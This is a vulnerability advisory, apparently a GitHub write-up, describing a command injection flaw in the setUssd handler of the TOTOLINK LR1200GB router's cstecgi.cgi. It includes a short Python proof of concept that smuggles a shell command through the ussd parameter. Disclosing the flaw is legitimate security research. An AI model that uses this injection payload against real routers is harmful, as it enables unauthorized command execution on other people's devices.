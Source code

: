 # TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has command injection vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following image displays the code for a command injection vulnerability in the `setUssd` handler function of  `cstecgi.cgi`. The value of the `ussd` parameter will be spliced ​​into the `cli_atc AT+CUS....` and be excuted by `system` function, which allows an attacker to excute any command.
![Vulnerability](./code.png)
## POC
```python
import requests

url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = {
    "ussd":"\";ps;#",
    "topicurl":"setUssd",
    "token":"00000000000000000000000000000000"
}

requests.request("POST", url, data=payload)
```
![postman](postman.png)